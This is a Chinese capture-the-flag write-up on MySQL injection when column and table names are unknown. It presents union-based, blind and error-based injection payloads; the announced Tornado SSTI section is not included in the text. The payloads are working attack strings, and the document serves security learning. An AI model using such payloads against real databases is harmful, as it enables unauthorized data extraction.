 ## 从qwb重新学习sql和SSTI



### 一、知识点

#### 1.sql注入无列名和表名

#### 2.tornado的SSTI

### 二、解题  

#### 1. sql注入无列名和表名

这里总结一下几个常用的思路.下面先放一下表的结构

![image-20210705202318152](https://i.loli.net/2021/07/05/ZwXpxuSqbryMIF8.png)

(1). 硬做(union注入)

payload：

```
select c from (select 1 as a, 1 as b, 1 as c union select * from test)x limit 1 offset 1
select `3` from(select 1,2,3 union select * from admin)a limit 1,1

//无逗号，有join版本 核心就是union
select a from (select * from (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t where 0 union select * from test)x;
```

这是有逗号的情况，就是一个简单的重新取名。

![image-20210705202958399](https://i.loli.net/2021/07/05/fLOo7CdiD2IRNWX.png)

假如没有逗号了。使用join来构造一个虚拟表头

![image-20210705203302813](https://i.loli.net/2021/07/05/IvpYGqltwZAJDCP.png)

盲注

```
((SELECT 1,concat('{result+chr(mid)}', cast("0" as JSON)))<(SELECT * FROM `this_fake_flag`))//ascii偏移
```

要求后面select的结果必须是一行。mysql中对char型大小写是不敏感的，盲注的时候要么可以使用`hex`或者`binary`

这里只能使用`concat`将字符型和binary拼接，使之大小写敏感，`JSON`也可以使用`char byte`代替

(2)报错注入

一般是sql语句查询的时候，出现了相同的列名

`select * from(select * from table1 a join (select * from table1)b)c` CISCN2021的初赛原题罢了

```
获取列名
select * from(select * from table1 a join (select * from table1)b)c
using() 可以把其中已经爆出来的列名的影响取消 

all select * from (select * from users as a join users as b)as c--+
all select*from (select * from users as a join users b using(id,username))c--+
all select*from (select * from users as a join users b using(id,username,password))c--+
```
